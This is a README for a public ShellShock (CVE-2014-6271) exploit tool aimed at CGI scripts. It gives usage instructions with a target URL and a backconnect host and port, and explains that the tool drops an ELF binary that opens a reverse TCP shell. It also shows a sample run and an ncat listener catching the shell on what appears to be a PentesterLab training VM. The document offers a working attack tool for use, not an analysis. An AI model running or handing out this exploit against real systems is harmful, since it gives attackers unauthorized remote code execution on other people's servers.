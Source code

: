 # Exploit for CVE-2014-6271, Bash "ShellShock" Remote Code Execution
This is an exploit for the well known "ShellShock" vulnerability in BASH, specifically, targetting CGI scripts. You can see this code is recycled in the [MoovMisManage][MoovMisManage] exploit. The interesting/fun bit about this exploit is the dynamic ELF generation I borrowed from [bl4sty][bl4sty]'s Nagios exploit, as it saves me fucking about with reverse shell scripts - I just upload and run a simple ELF binary on the box. For what its worth, I had not planned on releasing this to the general public until the PTY shellcode was done, but it got out when I gave it to a few people, so no point keeping it to myself anymore.

## Usage  
To use, you simply specify your target site with CGI script, backconnect host, and backconnect port. The current version sends back a simple reverse/tcp shell, soon to be upgraded to use a reverse PTY shellcode that is a work in progress.

Example Use:
```
xrl:~$ python2 http_cgi_shellshock.py http://vulnerable.local/cgi-bin/status hacker.local 1337

   ▄████████    ▄█    █▄       ▄████████  ▄█        ▄█          ▄████████    ▄█    █▄     ▄██████▄   ▄████████    ▄█   ▄█▄ 
  ███    ███   ███    ███     ███    ███ ███       ███         ███    ███   ███    ███   ███    ███ ███    ███   ███ ▄███▀ 
  ███    █▀    ███    ███     ███    █▀  ███       ███         ███    █▀    ███    ███   ███    ███ ███    █▀    ███▐██▀   
  ███         ▄███▄▄▄▄███▄▄  ▄███▄▄▄     ███       ███         ███         ▄███▄▄▄▄███▄▄ ███    ███ ███         ▄█████▀    
▀███████████ ▀▀███▀▀▀▀███▀  ▀▀███▀▀▀     ███       ███       ▀███████████ ▀▀███▀▀▀▀███▀  ███    ███ ███        ▀▀█████▄    
         ███   ███    ███     ███    █▄  ███       ███                ███   ███    ███   ███    ███ ███    █▄    ███▐██▄   
   ▄█    ███   ███    ███     ███    ███ ███▌    ▄ ███▌    ▄    ▄█    ███   ███    ███   ███    ███ ███    ███   ███ ▀███▄ 
 ▄████████▀    ███    █▀      ██████████ █████▄▄██ █████▄▄██  ▄████████▀    ███    █▀     ▀██████▀  ████████▀    ███   ▀█▀ 
                                         ▀         ▀                                                             ▀         
               Bash/HTTPd ShellShock Remote Code Execution Exploit, CVE-2014-6271 Version: 20150401.1
    
{+} Dr0psh3llz!
{!} cbhost: 192.168.2.5
{!} cbport: 1337
{*} chmoddin dat bznz
{>} Triggering backconnect!

```

For a listener, just use netcat or ncat.
```
xrl:~$ ncat -vlp 1337
Ncat: Version 6.47 ( http://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.2.14.
Ncat: Connection from 192.168.2.14:33371.
id;uname -a
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux
```

## Demo
If you want, check out the Asciicast.
[![asciicast](https://asciinema.org/a/18264.png)](https://asciinema.org/a/18264)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/18264
[wtfpl]: http://wtfpl.net/
[MoovMisManage]: https://github.com/XiphosResearch/MoovMisManage
[bl4sty]: https://twitter.com/bl4sty
